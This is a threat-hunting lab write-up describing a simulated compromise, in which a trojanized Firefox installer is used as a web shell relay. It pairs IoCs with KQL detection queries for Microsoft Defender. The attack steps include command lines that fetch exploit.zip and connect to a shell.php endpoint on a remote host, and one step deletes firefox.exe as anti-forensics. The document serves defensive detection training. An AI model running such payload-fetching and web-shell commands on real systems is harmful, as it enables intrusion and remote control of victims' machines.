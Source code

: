 # Threat Event (Firefox Used as a Web Shell Relay)
**Detection of Unauthorized Firefox Installation and Malicious Activity on Workstation: snet**

## Steps the "Bad Actor" took Create Logs and IoCs:

1. Initial Compromise: Downloaded a trojanized Firefox installer disguised as a legitimate file (`Firefox Installer.exe`) to `C:\Users\employee0\Downloads\` at 04:29:57 UTC from what appeared to be Mozilla's official CDN.

2. First Malicious Execution: Executed  `setup-stub.exe ` (SHA256: `181baa1380e339d8acb6b067c33dd36a5f56e57ee05f7e524b752affaafa75ac `)
   `  setup-stub.exe -no-remote -profile "C:\Users\employee0\Downloads\Temp\MalProfile" http://[192.168.1.100]/exploit.zip `

3. **Web Shell Connection Established**: Re-executed `setup-stub.exe` targeting a web shell endpoint for command-and-control:
    `setup-stub.exe -no-remote -profile "C:\Users\employee0\Downloads\Temp\MalProfile" http://[192.168.1.100]/admin/shell.php`
   
4. Multi-Stage Dropper Deployment: Three sequential download.exe executions occurred from randomized temporary directories, indicating a staged infection process:
- `C:\Users\EMPLOY~1\AppData\Local\Temp\nskC4FD.tmp\download.exe` (05:11:57 UTC)
- `C:\Users\EMPLOY~1\AppData\Local\Temp\nso90D.tmp\download.exe` (05:54:48 UTC - SHA256: `b5284b0e4a5f867a1342a4bc5a7ca21b9c13c49bea1b48624b691473d14dec78`)
- `C:\Users\EMPLOY~1\AppData\Local\Temp\nss9E77.tmp\download.exe` (05:55:31 UTC)
Each executed with: `/LaunchedFromStub /INI=[temp_path]\config.ini`

5. Anti-Forensics: Deleted legitimate `firefox.exe` from `C:\Program Files\Mozilla Firefox\` at 05:55:24 UTC to remove evidence and potentially replace with compromised binary. Deletion initiated by the malicious stub process.

6. Persistence Establishment: Created malicious profile directory  `Temp\MalProfile ` to maintain persistent connection to remote command server and host additional payloads.
---

## Tables Used to Detect IoCs:
| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceFileEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicefileevents-table|
| **Purpose**| Used to detect Firefox installer downloads, temporary profile creation, and file deletion (covering tracks). |

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceProcessEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table|
| **Purpose**| Used to detect ```download.exe```, ```setup-stub.exe```, and malicious command-line arguments used to install and execute payloads.|

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceNetworkEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table|
| **Purpose**| Used to detect external web connections initiated by Firefox and setup-stub to remote IPs (e.g., 172.203.80.23).|

---

## Related Queries:
```kql
// 1. Identify Firefox installer downloads and suspicious file activity
DeviceFileEvents
| where DeviceName == "snet"
| where FileName contains "firefox" 
| where InitiatingProcessAccountName == "employee0"
| project Timestamp, DeviceName, ActionType, FileName, FolderPath, SHA256, InitiatingProcessCommandLine
| order by Timestamp desc

// 2. Detect malicious process executions (setup-stub.exe and download.exe)
DeviceProcessEvents
| where DeviceName == "snet"
| where FileName in~ ("setup-stub.exe", "download.exe")
| where AccountName == "employee0"
| project Timestamp, DeviceName, AccountName, FileName, ProcessCommandLine, InitiatingProcessFileName, InitiatingProcessCommandLine, SHA256
| order by Timestamp desc

// 3. Detect firefox.exe deletion (anti-forensics activity)
DeviceFileEvents
| where DeviceName == "snet"
| where FileName == "firefox.exe"
| where ActionType == "FileDeleted"
| where FolderPath contains "Mozilla Firefox"
| project Timestamp, DeviceName, InitiatingProcessAccountName, InitiatingProcessCommandLine, FolderPath, SHA256

// 4. Detect network connections to malicious endpoints
DeviceNetworkEvents
| where DeviceName == "snet"
| where InitiatingProcessFileName in~ ("setup-stub.exe", "firefox.exe")
| where RemoteUrl has_any ("shell.php", "exploit.zip") 
      or RemoteIP has_any ("[ATTACKER-IP]")
| project Timestamp, DeviceName, InitiatingProcessAccountName, InitiatingProcessFileName, RemoteIP, RemotePort, RemoteUrl
| order by Timestamp desc
```

---

## Created By:
- **Author Name**: Antonio Francisco
- **Author Contact**: https://www.linkedin.com/in/antoniofrancisco-085948210/
- **Date**: October 10, 2025

## Validated By:
- **Reviewer Name**: 
- **Reviewer Contact**: 
- **Validation Date**: 

---

## Additional Notes:
- **None**

---

## Revision History:
| **Version** | **Changes**                   | **Date**         | **Modified By**   |
|-------------|-------------------------------|------------------|-------------------|
| 1.0         | Initial draft                  | `October 10, 2025`  | `Antonio Francisco`   
